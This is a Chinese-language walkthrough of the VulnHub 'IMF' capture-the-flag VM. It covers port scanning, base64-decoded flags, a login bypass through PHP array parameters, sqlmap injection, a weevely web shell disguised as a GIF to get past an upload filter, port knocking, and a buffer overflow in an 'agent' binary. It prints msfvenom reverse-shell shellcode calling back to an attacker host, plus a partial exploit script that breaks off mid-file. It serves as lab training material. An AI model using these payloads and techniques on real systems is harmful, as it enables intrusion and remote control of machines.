# IMF

> https://download.vulnhub.com/imf/IMF.ova

靶场IP：`192.168.32.175`



扫描对外端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p 1-65535 192.168.32.175                                                                                                                                                                                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 05:04 EDT
Nmap scan report for 192.168.32.175
Host is up (0.00028s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:69:7C:06 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 105.01 seconds
```

浏览器访问80端口



在contact.php的源代码找到flag



```
┌──(root💀kali)-[~/Desktop]
└─# echo "YWxsdGhlZmlsZXM=" | base64  -d                                                                                         
allthefiles                                                                                                                                                                                                                    
```

还有一个加密字符串



```
┌──(root💀kali)-[~/Desktop]
└─# echo "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==" | base64  -d
flag2{aW1mYWRtaW5pc3RyYXRvcg==}                                                                                                                                                                                                                                             
┌──(root💀kali)-[~/Desktop]
└─# echo "aW1mYWRtaW5pc3RyYXRvcg==" | base64 -d
imfadministrator 
```

访问`/allthefiles`目录



访问`/imfadministrator`目录



查看页面源代码



修改数据包

```
POST /imfadministrator/ HTTP/1.1
Host: 192.168.32.175
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://192.168.32.175
Connection: keep-alive
Referer: http://192.168.32.175/imfadministrator/
Cookie: PHPSESSID=ngh2u9s8em7p7tj8rbljpo8a61
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

user=rmichaels&pass[]=123
```

获取flag3

```
flag3{Y29udGludWVUT2Ntcw==}<br />Welcome, rmichaels<br /><a href='cms.php?pagename=home'>IMF CMS</a>
```

```
┌──(root💀kali)-[~/Desktop]
└─# echo 'Y29udGludWVUT2Ntcw==' | base64 -d
continueTOcms    
```

访问cms.php



```
┌──(root💀kali)-[/tmp]
└─# cat 1.txt 
GET /imfadministrator/cms.php?pagename=home HTTP/1.1
Host: 192.168.32.175
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.32.175/imfadministrator/cms.php
Cookie: PHPSESSID=ngh2u9s8em7p7tj8rbljpo8a61
Upgrade-Insecure-Requests: 1
```

使用sqlmap去跑

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt -p pagename --level 5 --risk 3 --dbms=mysql -D admin -T pages --dump

Database: admin                                                                                                                                                                                                                             
Table: pages
[4 entries]
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+
| id | pagedata                                                                                                                                                              | pagename             |
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+
| 1  | Under Construction.                                                                                                                                                   | upload               |
| 2  | Welcome to the IMF Administration.                                                                                                                                    | home                 |
| 3  | Training classrooms available. <br /><br /> Contact us for training.                                                               | tutorials-incomplete |
| 4  | <h1>Disavowed List</h1><br /><ul><li>*********</li><li>****** ******</li><li>*******</li><li>**** ********</li></ul><br />-Secretary | disavowlist          |
+----+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------+

```

找到一个图片文件


扫描二维码找到`flag4{dXBsb2Fkcjk0Mi5waHA=}`

```
─(root💀kali)-[/tmp]
└─# echo 'dXBsb2Fkcjk0Mi5waHA=' | base64 -d                                                                                                                                                                                            
uploadr942.php        
```



进入后，我们得到了一个上传页面



php后缀不能上传



有WAF进行检测



使用weevely生成shell

```
─(root💀kali)-[/tmp]
└─# weevely generate 123456 shell.php
Generated 'shell.php' with password '123456' of 744 byte size.
┌──(root💀kali)-[/tmp]
└─# mv shell.php shell.gif
```

在文件最前面添加GIF头

```
GIF89a3444
```





```
──(root💀kali)-[/tmp]
└─# weevely http://192.168.32.175/imfadministrator/uploads/edb0327e464d.gif 123456

[+] weevely 4.0.1

[+] Target:     192.168.32.175
[+] Session:    /root/.weevely/sessions/192.168.32.175/edb0327e464d_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> ls
edb0327e464d.gif
flag5_abc123def.txt
www-data@imf:/var/www/html/imfadministrator/uploads $ 
```

查看flag5

```
www-data@imf:/var/www/html/imfadministrator/uploads $ cat flag5_abc123def.txt
flag5{YWdlbnRzZXJ2aWNlcw==}
```

```
┌──(root💀kali)-[~/Desktop]
└─# echo 'YWdlbnRzZXJ2aWNlcw==' | base64 -d
agentservices
```

找到agent服务

```
www-data@imf:/var/www/html/imfadministrator/uploads $ find / -name "agent" &>/dev/null
/usr/local/bin/agent
/etc/xinetd.d/agent
```

运行agent

```
www-data@imf:/var/www/html/imfadministrator/uploads $ /usr/local/bin/agent
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 
```

在agent目录找到一串端口列表

```
www-data@imf:/var/www/html/imfadministrator/uploads $ cd /usr/local/bin
www-data@imf:/usr/local/bin $ ls
access_codes
agent
www-data@imf:/usr/local/bin $ cat acc*
SYN 7482,8279,9467
www-data@imf:/usr/local/bin $ 
```

端口敲门

```
┌──(root💀kali)-[~/Desktop]
└─# knock 192.168.32.175 7482 8279 9467   
```

我们可以看到端口 7788 也打开了

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.175 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 05:56 EDT
Stats: 0:00:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 31.63% done; ETC: 05:58 (0:01:33 remaining)
Nmap scan report for 192.168.32.175
Host is up (0.00028s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
7788/tcp open  unknown
MAC Address: 00:0C:29:69:7C:06 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 105.20 seconds
 
```

下载agent

```
weevely> file_download /usr/local/bin/agent /tmp/agent
```

输入ID，会提示无效ID



追踪找到有效ID：`48093572`



输入正确的ID，会显示菜单



创建1000个字符

```
┌──(root💀kali)-[~]
└─# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
```

缓冲区溢出



```
──(root💀kali)-[/tmp]
└─# gdb ./agent
GNU gdb (Debian 10.1-2+b1) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.                                                                    
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./agent...
(No debugging symbols found in ./agent)
(gdb) run
Starting program: /tmp/agent 
  ___ __  __ ___ 
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572
Login Validated 
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
Enter selection: 3
```



发现特定值的确切偏移量：**41366641**

现在我们创建了具有相同值的模式

```
┌──(root💀kali)-[~]
└─# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41366641      
[*] Exact match at offset 168
```

使用 msfvenom 我创建了一个反向 shell 并删除了坏字符（"`\x00\x0a\xod`"）。

```
┌──(root💀kali)-[~]
└─# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.32.130 LPORT=9999 -f python -b "\x00\x0a\xod"                                                                                                                                  2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of python file: 479 bytes
buf =  b""
buf += b"\xba\xd3\xd4\x17\x4e\xdb\xd0\xd9\x74\x24\xf4\x5f\x33"
buf += b"\xc9\xb1\x12\x31\x57\x12\x83\xc7\x04\x03\x84\xda\xf5"
buf += b"\xbb\x1b\x38\x0e\xa0\x08\xfd\xa2\x4d\xac\x88\xa4\x22"
buf += b"\xd6\x47\xa6\xd0\x4f\xe8\x98\x1b\xef\x41\x9e\x5a\x87"
buf += b"\x91\xc8\xbd\xd5\x7a\x0b\xbe\xfe\x75\x82\x5f\xb0\xec"
buf += b"\xc4\xce\xe3\x43\xe7\x79\xe2\x69\x68\x2b\x8c\x1f\x46"
buf += b"\xbf\x24\x88\xb7\x10\xd6\x21\x41\x8d\x44\xe1\xd8\xb3"
buf += b"\xd8\x0e\x16\xb3"
```

EXP脚本

```
┌──(root💀kali)-[~]
└─# cat agentsploit.py                                           
#!/usr/bin/python
import time, struct, sys
import socket as so

#Command used for Linux Payload.. replace with your IP - msfvenom -p linux/x86/shell/reverse_tcp LPORT=4444 LHOST=192.168.56.102 -b "\x00\x0a\x0d" -f py

buf =  b""
buf += b"\xba\xd3\xd4\x17\x4e\xdb\xd0\xd9\x74\x24\xf4\x5f\x33"
buf += b"\xc9\xb1\x12\x31\x57\x12\x83\xc7\x04\x03\x84\xda\xf5"
buf += b"\xbb\x1b\x38\x0e\xa0\x08\xfd\xa2\x4d\xac\x88\xa4\x22"
buf += b"\xd6\x47\xa6\xd0\x4f\xe8\x98\x1b\xef\x41\x9e\x5a\x87"
buf += b"\x91\xc8\xbd\xd5\x7a\x0b\xbe\xfe\x75\x82\x5f\xb0\xec"
buf += b"\xc4\xce\xe3\x43\xe7\x79\xe2\x69\x68\x2b\x8c\x1f\x46"
buf += b"\xbf\x24\x88\xb7\x10\xd6\x21\x41\x8d\x44\xe1\xd8\xb3"
buf += b"\xd8\x0e\x16\xb3"

#CALL EAX address is 8048563
buf += "A" * (168 - len(buf))

buf +="\x63\x85\x04\x08\n"

try:
